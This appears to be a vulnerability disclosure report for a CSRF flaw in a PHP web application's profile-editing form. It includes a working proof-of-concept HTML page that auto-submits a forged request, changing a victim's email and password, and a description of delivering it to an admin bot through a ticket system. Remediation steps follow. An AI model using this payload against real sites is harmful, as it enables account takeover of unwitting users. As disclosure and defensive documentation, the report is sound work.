



# Description

A Cross-Site Request Forgery (CSRF) vulnerability affects the profile editing form at `/index.php?page=user/profile.php`. The application accepts POST requests to modify user profile information (email, bio, password) without properly verifying the CSRF token server-side. Combined with insecure PHPSESSID cookie settings (missing `HttpOnly`, `Secure`, or `SameSite` attributes), this allows an attacker to forge requests that modify a victim's profile.

# Exploitation

1. The attacker deploys a malicious HTML page on their own domain.
2. The attacker tricks the authenticated user into visiting the malicious page (via phishing, forums, ads, etc.).
3. On page load, JavaScript auto-submits the form.
4. The victim's profile is silently modified - email, bio, and password can all be changed.

# PoC

The attacker hosts the following malicious page:

```html
<html>
<body onload="document.forms[0].submit()">
  <form action="http://webapplication-host/index.php?page=user/profile.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="email" value="admin@hacked.sorry">
    <input type="hidden" name="bio" value="">
    <input type="hidden" name="password" value="Newwpass00@@!!">
    <input type="hidden" name="confirm_password" value="Newwpass00@@!!">
    <input type="hidden" name="csrf_token" value="rien">
  </form>
</body>
</html>
```

The attacker creates the malicious page:



Then submits the link via the application's ticket system, which triggers a bot (simulating an admin) to visit it:



Result - the admin account is compromised, with email and password changed:



# Risk

This vulnerability (CVSS 8.8) enables:
- Modification of profile fields: bio, email, profile picture.
- Full Account Takeover (ATO) by changing the email, then resetting the password.
- Targeted phishing attacks using the victim's identity.

# Remediation

1. Validate the CSRF token server-side on every state-changing request.
2. Set secure cookie attributes: `HttpOnly`, `Secure`, `SameSite=Strict`.
3. Require the current password for sensitive profile changes (email, password).

# Author
Guacamooollee
